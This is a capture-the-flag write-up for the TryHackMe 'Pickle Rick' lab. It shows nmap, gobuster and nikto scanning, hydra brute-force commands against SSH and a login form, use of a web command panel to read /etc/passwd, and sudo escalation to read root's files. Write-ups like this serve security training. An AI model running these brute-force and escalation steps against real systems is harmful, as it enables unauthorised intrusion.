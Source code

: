 # THM:Pickle Rick

URL: https://tryhackme.com/room/picklerick [Easy]

Tags: 
<div style="margin-left: 5px;">
{% assign tags = page.tags | split: "," %}
{% for tag in tags %}
<a href="../search/?q={{tag}}" title="Click to search by this tag"><span class="badge bg-secondary">{{tag}}</span></a>
{% endfor %}
</div>
<hr>

## Reconnaissance

Description of the room:

> This Rick and Morty themed challenge requires you to exploit a webserver to find 3 ingredients that will help Rick make his potion to transform himself back into a human from a pickle.

## Scanning

### Running: `nmap`

Ran the following:

> `nmap -Pn xxx.xxx.xxx.xxx`

Interesting ports found to be open:

```python
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    open     http
```

Also see: [nmap.log](nmap.log)

### Running: `gobuster`

Ran the following:

> `gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://xxx.xxx.xxx.xxx`

But then ultimately ran again using the `common.txt` dirb wordlist:

> `gobuster dir -w /usr/share/wordlists/dirb/common.txt  -u http://xxx.xxx.xxx.xxx`

Interesting folders found:

```python
/robots.txt           (Status: 200) [Size: 17] 
```

*Also see: [gobuster.log](gobuster.log) and [gobuster_common.log](gobuster_common.log)*

### Running: `nikto`

Ran the following:

> `nikto -h xxx.xxx.xxx.xxx`

Found the following:

```python
+ /login.php: Admin login page/section found.
```

Also see: [nikto.log](nikto.log)

## Gaining Access

### Unprivileged Access

Unsuccessfully, I did try using the username found in the HTML source of the main `index.html` page with hydra to brute force SSH and the login page, but those didn't work. Those commands were:

#### SSH

```bash
hydra -l R1ckRul3s -P /usr/share/wordlists/rockyou.txt \
    ssh://xxx.xxx.xxx.xxx
```

*See: [hydra.ssh.log](hydra.ssh.log)*

#### HTTP

```bash
hydra -l R1ckRul3s -P /usr/share/wordlists/rockyou.txt \
    xxx.xxx.xxx.xxx http-post-form \
    "/login.php:username=^USER^&password=^PASS^&sub=Login:F=Invalid username or password."
```

*See: [hydra.web.log](hydra.web.log)*

---

Next, using the username found in the HTML source of the main `index.html` page, and using the potential password we found in `/robots.txt`, we try those credentials from the `/login.php` page, and find that we can log in and use a "Command Panel" which appears to let us run arbitrary commands, and see the results.

We can run `ls -la` to find:

```bash
total 40
drwxr-xr-x 3 root   root   4096 Feb 10  2019 .
drwxr-xr-x 3 root   root   4096 Feb 10  2019 ..
-rwxr-xr-x 1 ubuntu ubuntu   17 Feb 10  2019 Sup3rS3cretPickl3Ingred.txt
drwxrwxr-x 2 ubuntu ubuntu 4096 Feb 10  2019 assets
-rwxr-xr-x 1 ubuntu ubuntu   54 Feb 10  2019 clue.txt
-rwxr-xr-x 1 ubuntu ubuntu 1105 Feb 10  2019 denied.php
-rwxrwxrwx 1 ubuntu ubuntu 1062 Feb 10  2019 index.html
-rwxr-xr-x 1 ubuntu ubuntu 1438 Feb 10  2019 login.php
-rwxr-xr-x 1 ubuntu ubuntu 2044 Feb 10  2019 portal.php
-rwxr-xr-x 1 ubuntu ubuntu   17 Feb 10  2019 robots.txt
```

The contents of `Sup3rS3cretPickl3Ingred.txt` are the answer to the "first ingredient" needed for this room.

---

If we run `less /etc/passwd` we can see that there is a user account called `ubuntu`. Or, we can run `ls -la /home/` to see the users who have a home directory. With that, we can see a directory listing of that users' home directory with `ls -ls /home/rick` and get:

```bash
total 12
drwxrwxrwx 2 root root 4096 Feb 10  2019 .
drwxr-xr-x 4 root root 4096 Feb 10  2019 ..
-rwxrwxrwx 1 root root   13 Feb 10  2019 second ingredients
```

The contents of `second ingredients` are the answer to the "second ingredient" needed for this room.

### Privilege Escalation

With this access we have, we can also look in the `ubuntu` users home folder with `ls -la /home/ubuntu` and see:

```bash
total 40
drwxr-xr-x 4 ubuntu ubuntu 4096 Feb 10  2019 .
drwxr-xr-x 4 root   root   4096 Feb 10  2019 ..
-rw------- 1 ubuntu ubuntu  320 Feb 10  2019 .bash_history
-rw-r--r-- 1 ubuntu ubuntu  220 Aug 31  2015 .bash_logout
-rw-r--r-- 1 ubuntu ubuntu 3771 Aug 31  2015 .bashrc
drwx------ 2 ubuntu ubuntu 4096 Feb 10  2019 .cache
-rw-r--r-- 1 ubuntu ubuntu  655 May 16  2017 .profile
drwx------ 2 ubuntu ubuntu 4096 Feb 10  2019 .ssh
-rw-r--r-- 1 ubuntu ubuntu    0 Feb 10  2019 .sudo_as_admin_successful
-rw------- 1 ubuntu ubuntu 4267 Feb 10  2019 .viminfo
```

Since we have a `.sudo_as_admin_successful` file, we might assume we have some `sudo` privileges, so we run `sudo -l` to see:

```bash
Matching Defaults entries for www-data on ip-10-10-243-208.eu-west-1.compute.internal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-10-243-208.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```

Wow. So, the `ubuntu` account has `sudo` privilege and no password prompt. Let's use that to look in the `root` home folder with `sudo ls -la /root` to find:

```bash
total 28
drwx------  4 root root 4096 Feb 10  2019 .
drwxr-xr-x 23 root root 4096 Feb  6 02:07 ..
-rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
drwx------  2 root root 4096 Feb 10  2019 .ssh
-rw-r--r--  1 root root   29 Feb 10  2019 3rd.txt
drwxr-xr-x  3 root root 4096 Feb 10  2019 snap
```

The contents of `3rd.txt` are the answer to the "final ingredient" needed to complete this room.

## Maintaining Access

None needed.

## Clearing Tracks

We never actually "hacked" into this server, so there is nothing to clear.

## Summary

Completed: [2022-02-05 21:56:08]